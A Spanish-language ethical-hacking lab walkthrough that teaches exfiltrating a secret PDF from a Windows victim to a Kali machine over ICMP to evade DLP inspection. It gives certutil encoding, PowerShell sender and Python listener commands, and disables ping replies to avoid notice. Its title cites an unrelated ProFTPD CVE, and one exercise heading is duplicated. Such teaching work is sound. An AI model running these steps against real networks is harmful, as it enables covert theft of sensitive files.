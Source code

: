 # Explotar vulnerabilidad CVE-2015-3306 presente en ProFTPD 1.3.5.

Requisitos:
1. Máquina ***Router-Ubu***.
2. Máquina ***Kali Linux***.
3. Máquina ***Win 11***.

Las organizaciones suelen desplegar sistemas ***DLP***(Data Loss Prevention) en los perimetrales. Su objetivo es detectar cuando alguien intenta sacar del perímetro de la organización algún archivo sensible. 

Generalmente se envían por correo o se suben a repositorios en el Cloud (GSuite, O365, etc) por medio de conexiones ***HTTPS***. Por esta razón, se suele ***inspeccionar el tráfico SSL*** en los firewalls, porque de no ser así, los sistemas ***DLP*** no podrían ver lo que se está transmitiendo.

Pues bien, en este laboratorio aprenderemos a exfiltrar información a través del protocolo ***ICMP***, que generalmente no es inspeccionado, al menos desde el punto de vista del ***DLP***.

## Ejercicio 1: 

La ejecución de scripts maliciosos de PowerShell viene siendo bien detectada por las herramientas de seguridad, como el ***antivirus*** o el ***IDS***.

## Ejercicio 1: Comprobar si la víctima puede usar ICMP.

Asegúrate que en la máquina ***Win 11*** tienes clonado el repo de Github con los archivos del curso. Si no es así o no lo tienes claro, mira el ***Ejercicio 11: Clonado del repositorio de GitHub.*** del ***lab-00.md***.

También debemos asegurarnos de que se permite la ejecución de scripts de ***PowerShell***. Abrimos una terminal de ***PowerShell*** como ***ADMINISTRADOR***. En ellas ejecutamos.
```
Set-ExecutionPolicy -ExecutionPolicy RemoteSigned
```

Cerramos la terminal de administrador de ***PowerShell***.

En este escenario, el equipo ***Víctima*** (***Win 11***) está bajo el control del actor de la amenaza. En este mismo equipo también se encuentra el documento secreto que se desea exfiltrar.

Para conseguirlo vamos a enviar el archivo desde el equipo de la víctima al equipo de ataque (***Kali***) usando el protocolo ***ICMP***.

Lo primero que debemos comprobar es si la víctima puede enviar paquetes ***ICMP***.
Nota: En la realidad, la víctima debería poder hacer ping hacia Internet, donde en una IP Pública se ubicará un servidor de ICMP con el que se va a comunicar. Por temas legales, nos limitamos al entorno de laboratorio, siendo la máquina ***Kali*** el destino de la exfiltración.

En ***Win 11*** abrimos una terminal de ***PowerShell*** y escribimos.
```
ping 192.168.20.9
```

## Ejercicio 2: Crear en servidor ICMP en la máquina de ataque.

Asegúrate que en la máquina ***Kali*** tienes clonado el repo de Github con los archivos del curso. Si no es así o no lo tienes claro, mira el ***Ejercicio 11: Clonado del repositorio de GitHub.*** del ***lab-00.md***.

En la máquina ***Kali*** vamos a levantar un ***servidor ICMP*** mediante un script de ***Python***. Estudiémoslo.
```
nano ~/eHacking_LABS/50/icmp_server.py
```

Vamos a deshabilitar las repuestas de ping en ***Kali***, puesto que el truco consiste en mandar paquetes ICMP desde la víctima, la máquina de ***Kali*** respondería a cada uno de ellos, y no queremos llamar la atención del perimetral.
```
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=1
```

Ejecutamos el servidor ***ICMP***. En la terminal escribimos.
```
sudo python ~/eHacking_LABS/50/icmp_server.py
```

## Ejercicio 3: Codificar el documento secreto y enviarlo.

Para ponérselo más difícil al sistema ***DPM*** vamos a codificar el documento en la máquina víctima (recordemos que el actor de la amenaza tiene su control). Para ello usaremos la herramienta ***CertUtil***.

En la máquina de ***Win 11***, en la terminal de ***PowerShell*** escribimos.
```
cd C:\Users\antonio\eHacking_LABS\50

certutil -encode TopSecret.pdf TopSecret.txt
```

Podemos ver el documento codificado.
```
cat TopSecret.txt
```

Visualizamos el script de ***PowerShell*** que va a enviar el archivo.
```
code ICMPSender.ps1
```

Las líneas más importantes son:
* *18:* IP de la máquina de ***Kali*** que está ejecutando el servidor ***ICMP***.
* *26:* Archivo a exfiltrar codificado con ***CertUtil***.

El código trocea el archivo en bloques de ***1472*** que es el máximo que puede llevar en la carga los paquetes ***ICMP***.

Cerramos ***Visual Studio Code*** y ejecutamos el script.
```
.\ICMPSender.ps1
```

## Ejercicio 4: Comprobar a exfiltración.

El máquina ***Kali*** debemos tener descargado el ***archivoExfiltrado.txt***. Aún necesita postprocesado porque recordemos que ha sido codificado con ***CertUtil*** y hay que retirar la cabecera y el pie.
```
cd ~/eHacking/50

sudo nano archivoExfiltrado.txt
```

Hay que ***eliminar*** la línea que se muestra en la imagen.

![Begin Certificate](../img/lab-50-B/202209102223.png)

Luego pulsamos ***CTRL+W*** y escribimos en el buscador lo siguiente.
```
END CERTIFICATE
```

Eliminamos el pie, tal y como señala la imagen.

![End Certificate](../img/lab-50-B/202209102227.png)

Guardamos con ***CTRL+X***, ***Y***. Antes de pulsar ***ENTER*** nos fijamos que el archivo está en formato ***DOS***. Tendrémos que convertirlo a ***Linux***.

![DOS Format](../img/lab-50-B/202209102231.png)

Pulsamos ***ENTER*** y en la terminal escribimos el siguiente comando.
```
sudo dos2unix archivoExfiltrado.txt
```

Por último lo descodificamos desde ***Base64*** (que es lo que hizo ***CertUtil***)
```
base64 -d archivoExfiltrado.txt > archivoExfiltrado.pdf
```

Ya solo queda ver el resultado.
```
open archivoExfiltrado.pdf
```

Para finalizar no olvidemos volver a habilitar la respuesta de ***ICMP***.
```
sudo sysctl -w net.ipv4.icmp_echo_ignore_all=0
```












